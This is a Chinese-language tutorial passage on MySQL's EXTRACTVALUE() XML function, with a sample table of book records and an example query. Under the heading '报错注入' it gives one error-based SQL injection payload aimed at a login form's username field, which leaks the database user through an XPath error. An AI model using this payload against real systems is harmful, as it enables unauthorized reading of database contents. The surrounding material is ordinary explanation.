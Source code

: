 ```sql
create database errorTest;
create table x(doc varchar(255));
insert into x values
('
<book>
    <title>A guide to the SQL standard</title>
    <author>
        <initial>CJ</initial>
        <surname>Date</surname>
    </author>
</book>
'),
('
<book>
    <title>SQL:1999</title>
    <author>
        <initial>J</initial>
        <surname>Melton</surname>
    </author>
</book>
');
```

可以看到，doc列的内容中包含了自己的层次结构，以XML格式体现包含书名和作者的书本，其中作者还包含名字简写大写以及姓。这是流行的排版和储存格式，字母`<book>`和`</book>`是标记，使用户更容易理解内部的层次结构。



## extractvalue();

语法：

`EXTRACTVALUE (XML_document, XPath_string);`

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc

第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。

作用：从目标XML中返回包含所查询值的字符串



报错注入：

```sql
uname=admin' union select extractvalue(1, concat(0x7e,(select user()),0x7e))-- fadjifa&passwd=admin&submit=Submit
```



### 示例#E1:

```sql
select extractvalue(doc, '/book/author/initial') from x;
```

```
mysql> select extractvalue(doc, '/book/author/initial') from x;
+-------------------------------------------+
| extractvalue(doc, '/book/author/initial') |
+-------------------------------------------+
| CJ                                        |
| J                                         |
+-------------------------------------------+
2 rows in set (0.00 sec)
```
